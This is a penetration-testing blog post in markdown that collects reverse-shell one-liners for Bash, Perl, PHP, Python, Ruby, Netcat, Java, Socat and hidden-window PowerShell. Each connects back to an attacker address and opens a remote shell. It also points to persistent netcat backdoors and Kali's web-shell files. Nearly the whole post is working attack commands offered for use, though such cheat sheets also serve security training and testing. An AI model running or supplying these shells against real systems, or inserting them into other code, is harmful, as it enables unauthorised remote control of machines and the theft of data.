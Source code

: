 ```yaml
---
published: true
category: Cheatsheet
title: Reverse Shell Cheatsheet
image: https://imgur.com/izNMySh.png
---
```


When penetration testing, hackers often find themselves in a compromised system with a command execution vulnerability. Whenever the opportunity persists, the attacker must establish a reverse shell. 

A **reverse shell** is an (insecure) shell session which establishes a connection initiated by a remote host. This is a **type** of shell where the attacker may communicate back to the remote host.

The attacking machine essentially acts as a client whilst the remote host acts as the server, creating a communication port on the victim. Once this connection has been established, the attacker can remotely execute commands. 

The attacking machine listens on a port which the connection is established on. 

This article will outline the most common reverse shells that can be used. Depending on what is available on the target system, one of the following scripting languages must be chosen. 

Please refer to the bottom of this page for web shells in Kali Linux.

### Bash

<pre>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1</pre>

### Perl

<pre>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'</pre>

### PHP 

Please note, this assumes a TCP connection uses file descriptor 3. 

<pre> php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' </pre>

If a .php file is needed for a payload, refer to [this website](https://github.com/pentestmonkey/php-reverse-shell) for some examples. You can also find some in the web shells directory on Kali Linux.

### Python

Python 2.7

<pre> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>

Refer to [this website](https://www.thepythoncode.com/article/create-reverse-shell-python) for more information about python reverse shells.

### Ruby 

<pre>ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'</pre>

### Netcat

If an attacker is lucky enough to find netcat on the compromised system, Netcat can be used to gain a reverse shell. If possible, installing the windows binary nc.exe can allow an attacker a persistent netcat backdoor. Read more about [this here](https://www.offensive-security.com/metasploit-unleashed/persistent-netcat-backdoor/).

<pre>nc -e /bin/sh 10.0.0.1 1234</pre>

If the incorrect version of netcat is installed, this command may be used to get a reverse shell. Please refer to [this website for more information](https://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498).

<pre>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f</pre>

### Java

<pre>r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()</pre>

### Socat 

Attacker:
<pre>socat file:`tty`,raw,echo=0 TCP-L:port</pre>
Client:
<pre>/dev/shm exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip-address:port</pre>

### Powershell

<pre>powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("ip-address",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()</pre>

### Kali Linux Web Shell Files

Kali Linux has a variety of pre-installed web shells.

<pre>/usr/share/webshells</pre>

The above directory contains files which establish a reverse shell, some of which include:

**php**: /usr/share/webshells/php/

**Perl**: /usr/share/webshells/perl/

**Cold Fusion**: /usr/share/webshells/cfm/

**ASP**: /usr/share/webshells/asp/

**JSP**: /usr/share/webshells/jsp/

This is a screenshot of the directories on my local Kali Linux machine:

![webshells](https://imgur.com/1LQCTZc.png)


